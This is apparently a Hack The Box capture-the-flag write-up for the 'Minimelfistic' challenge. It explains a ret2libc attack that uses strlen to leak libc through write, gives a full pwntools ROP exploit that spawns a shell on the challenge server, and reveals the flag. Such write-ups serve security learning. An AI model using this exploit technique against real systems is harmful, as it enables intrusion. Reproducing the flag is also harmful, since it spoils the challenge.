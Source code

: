 # Minimelfistic

## Challenge

Alarm system randomly determines when we are allowed to send input.

There is no `puts` or `printf`, but there is `write`.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

Because there is no `puts` or `printf`, we need to use `write` to leak addresses.

However, `write` requires length in RDX and we don't have a gadget to set it.

We can use `strlen` which uses RDX to store the address of the string temporarily in its internals, resulting in an extremely long string length passed to `write`.

Now, we can ret2libc as normal.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 139.59.180.40 --port 30345 minimelfistic
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('minimelfistic')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '139.59.180.40'
port = int(args.PORT or 30345)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

rop = ROP(exe)

payload = flat({
    0x0: b'9',
    0x40 + 0x8: [
        rop.find_gadget(["pop rdi", "ret"])[0],
        exe.got["write"],
        exe.plt["strlen"],
        rop.find_gadget(["pop rdi", "ret"])[0],
        1,
        rop.find_gadget(["pop rsi", "pop r15", "ret"])[0],
        exe.got["write"],
        0,
        exe.plt["write"],
        exe.sym["main"],
        ],
    })

io.sendlineafter(b"> ", payload)

io.recvuntil(b"will not be deactivated!\n")
libc.address = u64(io.recvuntil(b'\x00').ljust(8, b'\x00')) - libc.sym["write"]
log.success(hex(libc.address))

payload = flat({
    0x0: b'9',
    0x40 + 0x8: [
        rop.find_gadget(["ret"])[0],
        rop.find_gadget(["pop rdi", "ret"])[0],
        next(libc.search(b"/bin/sh")),
        libc.sym["system"],
        ],
    })

io.sendlineafter(b"> ", payload)

io.interactive()
```

## Flag

`HTB{S4nt4_15_n0w_r34dy_t0_g1v3_s0m3_g1ft5}`
